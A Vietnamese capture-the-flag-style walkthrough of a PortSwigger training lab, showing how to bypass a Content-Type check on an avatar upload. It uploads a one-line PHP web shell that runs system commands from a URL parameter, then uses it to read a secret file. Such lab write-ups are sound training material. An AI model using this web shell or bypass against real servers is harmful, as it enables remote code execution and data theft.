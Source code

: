 ## 1. Thông tin bài lab
- Tên lab: **Web shell upload via Content-Type restriction bypass**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/lab1/img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/lab1/img2.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.

![img3](./img/lab1/img6.png)

- Sau khi upload, ta nhận được phản hồi từ phía server kiểu file `application/octet-stream` chỉ cho phép upload các file kiểu `image/png, image/jpeg`

![img4](./img/lab2/img1.png)

- Có vẻ như server căn cứ vào header `Content-Type` để nhận diện loại file. Thử thay đổi nội dung header sao cho phù hợp với yêu cầu server nhưng vẫn có thể thực thi mã PHP.

**Kiểm tra giả thuyết**
- Thử thay đổi nội dung header thành **image/png** hoặc **image/jpeg** và upload lại file.

![img5](./img/lab2/img2.png)

- Kết quả upload file thành công, thử truy cập đến file thông qua phương thức GET để xem liệu mã PHP có được thực thi không?
- Mã PHP đã được thực thi tiếp theo ta tiến hành RCE và đọc nội dung tệp tin bí mật

![img6](./img/lab2/img3.png)

## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.

![img7](./img/lab2/img4.png)

- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`

![img8](./img/lab2/img5.png)



















